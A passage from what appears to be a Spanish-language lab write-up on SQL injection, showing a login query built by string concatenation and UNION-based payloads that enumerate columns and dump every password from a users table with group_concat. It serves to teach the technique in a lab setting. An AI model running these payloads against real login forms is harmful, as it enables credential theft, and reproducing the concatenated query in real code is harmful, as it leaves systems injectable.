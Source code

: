 Esto lo podemos saber si mandamos una consulta de la manera:

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">SELECT id, username FROM users WHERE username='" + username + "' AND password= '" + password + "'</code></pre>
  </div>
</div>

Si no conocemos el número de columnas, primero tendremos que enumerar el número de columnas inyectando consultas de la manera:
<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">1' UNION SELECT NULL -- -</code></pre>
  </div>
</div>

Poniendo tantos NULL como tablas creamos que debe de haber.

Usando `'UNION SELECT 1,2-- -`  como username, coincidimos con el número de columnas de la consulta SQL original.

Y donde antes ponía ‘Logged in as admin’ ahora pone ‘Logged in as 2’.

<div style="text-align: center; ">
    <img src="../assets/images/Labs/IntroSQLi/Untitled 8.png" alt="Untitled" onclick="openModal(this.src)" />
</div>

Mediante el uso de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) la enumeración de tablas y columnas de una base de datos se hace más ameno debido a que ya no dan los payloads a usar para obtener dicha información.

Como sabemos que el nombre de la tabla es *users* y tenemos la columna *password*, podemos hacer:

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">' UNION SELECT 1, password FROM users-- -</code></pre>
  </div>
</div>


Si hacemos uso de group_concat() podemos obtener todas las passwords a la vez.

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">' UNION SELECT 1, group_concat(password) FROM users-- -</code></pre>
  </div>
</div>
